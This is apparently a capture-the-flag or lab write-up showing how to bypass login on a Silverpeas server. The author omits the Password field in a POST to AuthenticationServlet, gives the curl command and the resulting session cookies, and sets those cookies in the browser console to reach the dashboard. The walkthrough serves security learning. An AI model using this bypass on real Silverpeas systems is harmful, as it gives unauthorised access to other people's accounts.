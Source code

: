 {% embed url="https://github.com/advisories/GHSA-4w54-wwc9-x62c" %}

...

...

...



After playing around with the website at port 8080, I returned to Burp suite and looked through the gathered URLs. I found a `POST` request to a path with the _**AuthenticationServlet**_ word present, this prompted me to test out the vulnerability I have found previously.

I sent the request to the Burp suite _repeater_ and modified the request to remove the `Password` field:

```http
POST /silverpeas/AuthenticationServlet 
HTTP/1.1 
Host: <target-url>:8080 

Login=scr1ptkiddy&DomainId=0
```

**Or with cURL**:

```bash
$ curl "http://<target-url>:8080/silverpeas/AuthenticationServlet" -d "Login=scr1ptkiddy&DomainId=0" -H "content-type:application/x-www-form-urlencoded" -v
```



Notice that the `Login` field (presumably the username section) has the value **scr1ptkiddy**, which was found in step 2 (enumerating port 80).

**The response is as follows**:

```http
...

HTTP/1.1 302 Found
Set-Cookie: JSESSIONID=xxx; path=/silverpeas; HttpOnly
Set-Cookie: defaultDomain=0; path=/; ...
Set-Cookie: svpLogin=scr1ptkiddy; path=/; ...
Location: http://<target-url>:8080/silverpeas/Main//look/jsp/MainFrame.jsp
... 
```

Notice that the server returned the following URL value in the `Location` header:

`http://<target-url>:8080/silverpeas/Main//look/jsp/MainFrame.jsp`



The following cookies are found from the `Set-Cookie` response headers from the request above, and must be set in the browser (under the _**Console**_ tab for Google Chrome) for the dashboard to load. If not set, the page will redirect back to the login page (<mark style="color:red;">**\*\***</mark> _the cookie seems to bet set automatically when using the proxy browser_):

```javascript
chrome-console> document.cookie = "JSESSIONID=xxx; path=/silverpeas";
chrome-console> document.cookie = "defaultDomain=0; path=/; ...";
chrome-console> document.cookie = "svpLogin=scr1ptkiddy; path=/; ...";
```
